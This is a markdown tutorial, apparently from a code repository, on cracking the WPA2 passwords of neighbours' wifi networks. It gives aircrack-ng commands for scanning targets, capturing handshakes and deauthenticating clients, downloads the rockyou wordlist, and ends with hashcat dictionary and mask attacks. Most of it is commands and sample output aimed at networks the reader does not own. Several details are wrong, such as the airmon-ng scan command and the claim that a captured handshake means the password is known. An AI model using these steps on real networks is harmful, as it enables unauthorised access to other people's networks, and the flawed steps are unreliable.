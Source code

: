 # How to hack wifi with weak password

This document will talk about how to hack your nerberhood wifi(weak password) 

# Find Your Target

Listen to [802.11 Beacon frame](https://en.wikipedia.org/wiki/Beacon_frame) broadcat near by wireless routers.

check if you device support monitor mode

```bash
airmon-ng
```

if there's nothing listed, your wireless card does not support monitor mode

using follow command to start monitor mode

```bash
airmon-ng start wlan0
```

`wlan0` is the device that listd by `airmon-ng`

using follow command to find your target

```bash
airmon-ng mon0 # run `iwconfig` to see new monitor interface
```

```
 CH  4 ][ Elapsed: 6 s ][ 2025-07-30 07:56 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 80:E4:55:87:3C:AC  -66        1        1    0   6  270   WPA2 CCMP   PSK  H3C_87
 3C:67:FD:8A:85:9A  -55        3        0    0   9  180   WPA2 CCMP   PSK  XY899902 
 06:F9:F8:59:14:28  -58       20        0    0   6  360   WPA2 CCMP   PSK  <length:  0>
 80:E4:55:87:3C:AA  -67       25        0    0   6  130   OPN              <length:  0>
 AE:97:CC:FC:D2:0E  -53        7        0    0   1  360   WPA2 CCMP   PSK  <length:  0>
```

- `BSSID` routers MAC address

- `PWR` is singal strength ,close to 0 is better

- `Beacon` is commucation frame between computer and routers

- `Data` data packages the more data the more frequently commucate

- `#/s` data packages per seconde

- `CH` channel 1,6,12 is the frequently 2.4GHz singal channel

- `ENC` encryption

- `CIPHER` encrypte algorithm  `TKIP` Temporal Key Integrity Protocol `CCMP` AES encryption `WEP` Wired Equivalent Privacy

- `AUTH` Authentication method `PSK` for fimally `MGT` for enterprise and `OPN` open access

- `ESSID` Extended Service Set Identifier(Wifi name)

# Capture a 4-way Handshake

## Process of WPA Handshake

```
client <-----> Access Point(AP)
   |              |
   |    1. ANonce |
   |<-------------|  AP Send random number
   |              |
   | 2. SNonce +  |
   |    MIC       |
   |------------->|  Client responds with authentication verification
   |              |
   |  3. GTK +    |
   |     MIC      |
   |<-------------|  AP sends Group Temporal Key (GTK)
   |              |
   |   4. ACK     |
   |------------->|  Handshake completion confirmation
```
## monitor wifi message

```bash
# replace -c and --bssid values with the values of your target network
# -w specifies the directory where we will save the packet capture
airodump-ng -c 3 --bssid 9C:5C:8E:C9:AB:C0 -w . mon0
```

```
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]                                        
                                                                                                                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 9C:5C:8E:C9:AB:C0  -47   0      140        0    0   6  54e  WPA2 CCMP   PSK  ASUS
```

> [!NOTE]
> now either wait for clinet Handshake or using [Deauth Attack](##deauth-attack) force disconnect cilent

## Deauth Attack

```bash
# Force disconnect cilent device so that we can get authentication verification
# which contained password
aireplay-ng -0 5 -a [AP_MAC] -c [CLIENT_MAC] -w [OUTPUT_FILE_NAME] wlan0mon
```

while you get Handshake data you will see

```
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ][ WPA handshake: bc:d3:c9:ef:d2:67
```

`[ WPA handshake: bc:d3:c9:ef:d2:67` this mean that you have get the password

you can see the monitor file `OUTPUT_FILE_NAME.cap`

using hcxpcapngtool convert captured file

```bash
hcxpcapngtool -o OUTPUT_FILE_NAME.hc22000 -E wordlist OUTPUT_FILE_NAME.cap
```

- `-E` wordlist possiable password


```bash
# download the 134MB rockyou dictionary file
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

Note, that if the network password is not in the wordfile you will not crack the password

```bash
hashcat -m 22000 OUTPUT_FILE_NAME.hc22000 rockyou.txt
```

or gass the password and force try it

```bash
hashcat -m 22000 511.hc22000 -a 3 ?l?l?l?l?d?d?d?d
```

`-a 3`

- Attack mode
- 3 Mask deauth-attack

Mask Character Sets

| Mask | Character | Range |
|------|-----------|-------|
| ?l | Lowercase | a-z |
| ?u | Uppercase | A-Z |
| ?d | Digits | 0-9 |
| ?h | Hex lowercase | 0-9a-f |
| ?H | Hex uppercase | 0-9A-F |
| ?s | Special chars | !"#$%&'()*+,-./:;<=>?@[]^_`{ |
| ?a | All printable | ?l?u?d?s |
